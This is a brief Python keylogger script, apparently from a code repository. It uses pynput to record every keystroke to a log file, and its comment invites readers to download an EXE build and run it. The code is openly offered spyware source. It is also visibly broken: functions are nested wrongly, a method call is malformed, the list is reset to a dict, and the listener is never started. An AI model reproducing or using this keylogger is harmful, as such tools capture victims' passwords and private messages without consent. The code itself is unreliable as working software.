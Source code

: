 # Random Keylogger
# I converted this into an EXE so all you gotta do is download this and open it on your host computer

from turtle import onrelease
import pynput
from pynput.keyboard import Key, Listener

count = 0
keys = []

def on_press(key):
    global keys, count
    keys.append(key)
    count += 1
    print("{0} pressed" .format (key))

    if count >= 1000:
        count = 0
        write_file(keys)
        keys = {}


    def write_file(keys):
        with open("log.txt", "a") as f:
            for key in keys:
                k = str(key .replace)()
                if k.find("space") >0:
                    f.write('\n')
                elif k.find("key") == -1:
                    f.write(k) 
          
        

    def on_release(key) : 
        if key == Key.esc:
            return False
